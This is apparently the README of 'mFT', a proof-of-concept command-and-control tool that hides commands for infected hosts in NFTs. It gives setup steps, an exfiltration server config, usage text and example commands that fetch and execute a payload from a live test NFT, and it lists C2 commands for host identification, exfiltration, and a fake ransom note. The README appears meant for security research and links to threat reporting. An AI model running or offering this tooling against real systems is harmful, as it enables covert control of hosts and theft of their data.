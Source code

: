 # mFT - Malicious Fungible Token

mFT is a Web3 based C2 PoC that leverages Non-Fungible Tokens (NFTs) as a mechanism for hosting and transmitting commands to compromised or infected hosts.

## Requirements

Install dependencies:

```bash
bundle install
```

Configure your OpenSea API Key in the `config.rb` file:

```ruby
$sea_apikey = "YOUR_API_KEY_HERE"
```

## mFT Exfil Server (mFTExfil.rb)

The exfiltration tool will start a web server which will log any data exfiltrated by mFT clients.

Custom address and port can be configured in the `config.rb` file:

```ruby
#Exfil Server default IP
$ex_default_address = "0.0.0.0"

#Exfil Server default Port
$ex_default_port = 4444
```

## mFT (mFT.rb)

This tool has the capability to both read and execute a malicious payload contained within an NFT. 
It also offers the functionality to provide an execution plan and generate custom payloads for specific purposes. 
Furthermore, if required, the tool can list all NFTs associated with a given address and retrieve detailed information about each one individually.

```ruby
          _____ _____           _ _ _     _   ___    _____ _ _         _   
    _____|   __|_   _|   ___   | | | |___| |_|_  |  |     | |_|___ ___| |_ 
   |     |   __| | |    |___|  | | | | -_| . |_  |  |   --| | | -_|   |  _|
   |_|_|_|__|    |_|           |_____|___|___|___|  |_____|_|_|___|_|_|_|                                                                   
                                      mFT - Client v0.01 - Mauro Eldritch     

Usage: mFT [options]
    -g, --generate                              Generate a malicious payload
    -x ADDRESS,IDENTIFIER,BLOCKCHAIN,
        --execute                               Execute a specific NFT's malicious payload
    -d ADDRESS,IDENTIFIER,BLOCKCHAIN,
        --decode                                Decode a specific NFT's malicious payload
    -l, --list ACCOUNT,BLOCKCHAIN               List account NFTs
    -i ADDRESS,IDENTIFIER,BLOCKCHAIN,
        --info                                  Get details for a specific NFT
```

### C2 Commands List

- `id`: Grabs hostname and IP address.
- `exfil`: Attempts to exfiltrate information via a POST request against the exfiltration server.
- `encrypt`: Dummy command which should encrypt the filesystem, but only creates a fake ransom note on the desktop.
- `shell`: Dummy command which should open a reverse shell **(not implemented)**.
- `wipe`: Dummy command which should wipe the filesystem **(not implemented)**.

### Test Contract & NFT

A test collection was published for users to run local tests. Use the NFT Address `0xd838b011c90643b6623393a94405a5e3c199b1fc` with ID `1` or `2` and `ethereum` blockchain on the examples below. The collection features my golden retriever and partner in crime Leopoldo, better known as "Golden Locker" or "*Treat* Actor" in the underground.

- NFTs: https://opensea.io/assets/ethereum/0xd838b011c90643b6623393a94405a5e3c199b1fc/1 & https://opensea.io/assets/ethereum/0xd838b011c90643b6623393a94405a5e3c199b1fc/2
- Holder (my test account): `0x942773F094f0C170AB8835e28f9B0b0b223e043A`
- Collection: https://opensea.io/collection/malicious-fungible-tokens 
- Contract: https://etherscan.io/token/0xd838b011c90643b6623393a94405a5e3c199b1fc 

### Examples:

```bash
#Note: Blockchain argument is optional for all cases. Default value: "ethereum".

#Run Exfiltration Server
ruby mFTExfil.rb

#Generate a payload interactively
ruby mFT.rb -g

#List all NFTs from a given address
ruby mFT.rb -l "0x942773F094f0C170AB8835e28f9B0b0b223e043A"

#Decode and explain a payload step by step ("2" can be used as the second parameter)
ruby mFT.rb --decode "0xd838b011c90643b6623393a94405a5e3c199b1fc","1"

#Execute a payload ("2" can be used as the second parameter)
ruby mFT.rb --execute "0xd838b011c90643b6623393a94405a5e3c199b1fc","1"

#Get information for a specific NFT ("2" can be used as the second parameter)
ruby mFT.rb --info "0xd838b011c90643b6623393a94405a5e3c199b1fc","1"
```

## See also

- The Hacker News - EtherHiding: https://thehackernews.com/2023/10/binances-smart-chain-exploited-in-new.html
- Guardio Labs - EtherHiding: https://labs.guard.io/etherhiding-hiding-web2-malicious-code-in-web3-smart-contracts-65ea78efad16